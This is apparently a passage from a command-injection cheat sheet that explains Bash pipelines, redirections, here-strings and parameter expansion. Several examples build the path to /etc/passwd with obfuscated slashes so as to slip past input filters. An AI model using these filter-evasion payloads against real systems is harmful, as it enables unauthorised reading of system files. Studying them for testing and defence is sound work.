 Moreover, you can use pipelines for the same purposes:

```bash
$ command1 | command2 
$ command1 |& command2 
```

References:
- [Bash Reference Manual: 3.2.3 Pipelines](https://www.gnu.org/software/bash/manual/bash.html#Pipelines)
- [Bash Reference Manual: 3.2.4 Lists of Commands](https://www.gnu.org/software/bash/manual/bash.html#Lists)

## Producing slash with tr

```bash
$ echo . | tr '!-0' '"-1'
$ tr '!-0' '"-1' <<< .
$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

## Redirections

Redirect input and output before a command will be executed using the operators `>`, `>|`, `>>`, `<`, and etc.

```bash
$ ls > dirlist 2>&1
$ cat</etc/passwd
```

Supply a single string with a newline appended using the operator `<<<`.

```bash
$ base64 -d <<< dGVzdA==
```

References:
- [Bash Reference Manual: 3.6 Redirections](https://www.gnu.org/software/bash/manual/bash.html#Redirections)

## Shell parameter expansion

The basic form of parameter expansion is `${parameter}`; the value of the parameter is substituted:

```bash
$ a="es"; echo "t${a}t"
```

More complex forms of parameter expansions allow you to perform various operations. For instance, you can extract substrings and use them to create payloads:

```bash
$ echo ${HOME:0:1}
$ cat ${HOME:0:1}etc${HOME:0:1}passwd
```
